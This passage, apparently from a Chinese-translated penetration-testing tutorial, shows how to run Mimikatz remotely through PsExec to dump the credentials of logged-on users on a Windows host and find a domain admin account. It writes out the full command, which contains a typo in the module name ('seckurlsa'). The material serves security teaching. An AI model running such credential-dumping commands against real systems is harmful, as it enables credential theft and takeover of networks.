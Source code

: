 图 30：将 mimikatz.exe 复制到新目标

使用`PSexec`，我们将查看转储当前登录的用户凭据。这可以通过使用以下命令来完成：

```
psexec.exe \\192.168.10.9 -accepteula cmd /c (cd c:\tools ^& mimikatz.exe "privilege::debug" "seckurlsa::logonpasswords" "exit")
```

在这个命令中，我们告诉`PSexec`在远程系统上运行 Mimikatz 命令。`-accepteula`命令非常重要，因为这将阻止远程系统上出现 EULA 提示符：

![](img/48ab34c0-243a-4b49-b876-83da3a361a9a.png)

图 31：使用 PSexec 远程执行 mimikatz 命令

一旦我们有了输出，就会看到有一个高权限的账号登录，即`domainadmin`：

![](img/2c4720ed-0027-4370-9d41-9c7d205896f7.png)

